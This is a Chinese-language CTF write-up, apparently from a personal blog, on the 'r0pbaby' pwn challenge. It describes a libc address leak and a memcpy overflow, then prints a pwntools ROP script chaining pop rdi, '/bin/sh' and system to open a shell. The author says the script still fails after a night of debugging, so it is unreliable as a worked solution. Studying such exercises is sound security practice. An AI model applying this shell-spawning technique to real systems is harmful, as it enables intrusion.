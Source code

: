 看了一个大佬之前演讲的ppt，其中说到pwn题很多都是套路，每一种类型都短期快速刷一些熟练一下，之后再去逐步学习；感觉很有道理，就按照大佬的slide里推荐的题目挨个看一看；



首先checksec

![image-20210424214013896](https://static.hack1s.fun/images/2021/04/24/image-20210424214013896.png)

运行程序可以看到主要是一个菜单

![image-20210424214123869](https://static.hack1s.fun/images/2021/04/24/image-20210424214123869.png)

虽然程序开启了PIE，但是选项1直接会给出libc的地址，选项2能够给出输入的函数的地址

也就不用为随机化的问题担心了

选项3是可以输入一个长度1024以下的字符串，用IDA打开看发现并不是输入本身的溢出

而是最后结束的时候有一个`memcpy`

![image-20210424214331911](https://static.hack1s.fun/images/2021/04/24/image-20210424214331911.png)

这里将输入的buf会覆盖给savedregs，savedregs是程序最开始的地方，指向的是`rbp+0h`

![image-20210424214756808](https://static.hack1s.fun/images/2021/04/24/image-20210424214756808.png)

感觉可以直接写exploit

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
io = process('./r0pbaby')
elf= ELF('./r0pbaby')

def sendbuffer(payload):
    io.recvuntil(':')
    io.sendline('3')
    io.recvuntil('): ')
    length = len(payload)
    io.sendline(str(length))
    io.sendline(payload)


io.recv()

pop_rdi = 0x26b72
# libc_elf = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
# hex(next(libc_elf.search(asm('pop rdi\n ret\n',arch='amd64',os='linux'))))

io.sendline('2')
io.recv()
io.sendline('system')
io.recvuntil('Symbol system: ')
system_addr = int(io.recvuntil('\n',drop=True),16)
success('System Addr : '+hex(system_addr))

libc = LibcSearcher('system',system_addr)
libc_base = system_addr - libc.dump('system')
success('Libc Base Addr: '+hex(libc_base))
bin_sh = libc_base + libc.dump('str_bin_sh')
success('binsh Addr: '+hex(bin_sh))

payload = b'a'*8 + p64(libc_base+pop_rdi) + p64(bin_sh) + p64(system_addr)
#gdb.attach(io)
sendbuffer(payload)
io.interactive()
```

结果debug了一晚上，搞不懂问题在哪



